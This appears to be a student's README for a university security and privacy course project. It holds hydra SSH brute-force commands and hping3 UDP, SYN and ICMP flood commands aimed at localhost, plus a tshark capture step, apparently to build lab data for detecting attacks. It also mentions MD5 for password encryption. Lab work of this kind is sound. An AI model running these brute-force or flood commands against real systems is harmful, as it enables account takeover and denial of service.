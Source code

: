 <!--
 * @Author: uceewl4 uceewl4@ucl.ac.uk
 * @Date: 2024-03-05 11:10:24
 * @LastEditors: uceewl4 uceewl4@ucl.ac.uk
 * @LastEditTime: 2024-03-16 12:41:40
 * @FilePath: /security/README.md
 * @Description: 这是默认设置,请设置`customMade`, 打开koroFileHeader查看配置 进行设置: https://github.com/OBKoro1/koro1FileHeader/wiki/%E9%85%8D%E7%BD%AE
-->
# security
UCL ELEC0138: Security and Privacy


file check may need to combine with database
database password encryption MD5


<!-- brute force kali commands -->
<!-- 1. sudo apt install openssh-client
2. sudo service ssh start
3. sudo hydra -l root -P /usr/share/wordlists/metasplpoit/unix_passwords.txt 127.0.0.1 ssh -t 4 -V -->
<!-- or 192.168.64.3 -->

to map tcpdump data into tcpdump_output.txt file:
cd Desktop/project
sudo tshark -i lo -Y "(udp || tcp.flags.syn == 1 || icmp)" -T fields -e frame.time_epoch -e ip.src -e frame.len -e _ws.col.Protocol -e _ws.col.Info -E header=y -E separator=, -E quote=d -E occurrence=f > ~/Desktop/project/tcpdump_output.txt

UDP Flood:
sudo hping3 --udp --flood --rand-source --destport 24 -c 500 127.0.0.1

SYN Flood:
sudo hping3 --syn --flood --destport 80 -c 500 127.0.0.1

ICMP Flood:
sudo hping3 --icmp --flood -c 500 127.0.0.1
